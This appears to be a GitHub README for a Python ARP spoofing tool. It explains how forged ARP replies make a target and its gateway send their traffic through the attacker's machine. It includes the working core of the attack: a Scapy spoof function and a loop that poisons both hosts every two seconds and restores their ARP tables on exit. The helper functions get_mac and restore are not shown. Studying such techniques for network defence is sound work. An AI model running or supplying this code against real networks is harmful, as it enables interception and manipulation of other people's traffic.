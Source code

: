# Arp_Spoof

Program in python to perform an attack technique in which an attacker sends ARP (Address Resolution Protocol) messages in order to associate your MAC address with the IP address of another host, such as the IP address of the default gateway, causing all traffic is sent to the attacker's IP address instead of the gateway's IP address.

## Used Modules

  * Scapy
  * optparse

## Scapy

The module is used to send and receive the ARP messages(can be used to Create Packets, Analyse Packets and send/receive Packets) in this case we are gonna use to send responses to client, and the default gateway, this way the client will think that my host is the gateway and the gateway that i'm the client, and all the packet traffic will pass through my host.

```python
def spoof(target_ip, spoof_ip): 
    global mac 
    target_mac = mac
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    scapy.send(packet, verbose=False)
   
mac = get_mac(target_ip)
```
The function spoof receive like arguments the target_ip which is the IP that i want to send the responses pretending be another host, and the spoof_ip is the IP tha i want to pretend be. On the line 4 i create the packet that i'm gonna send to the target, with scapy.ARP(), putting the IP and MAC address of our target(the host) and putting the source IP like the spoof_ip(in this case the gateway), with that when the target reveive the response it will appear the IP of the authentic gateway, but actually my MAC address will be associated with this IP, and i'm gonna receive all the responses from it. The same thing will happen with the gateway to pretend be the authentic host.

```python
try:
   packets_sent_count = 0
   while True:
      spoof(target_ip, gateway_ip)
      spoof(gateway_ip , target_ip)
      packets_sent_count += 2
      print("\r[+] Packets sent: " + str(packets_sent_count), end="")
      time.sleep(2)
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C, Resetting ARP tables...")
    restore(target_ip, gateway_ip)
    restore(gateway_ip, target_ip)  
```
I have to send packets pretending being another host constantly, so i used one infinite loop (while True:), 
but I still put a 2 second of interval between sending packages to have at least control.<br>

With the exception when CTRL + C is typed the progam stops running, and use the restore functions to restore the ARP tables of the target host and the gateway.

<img src="termi.png">

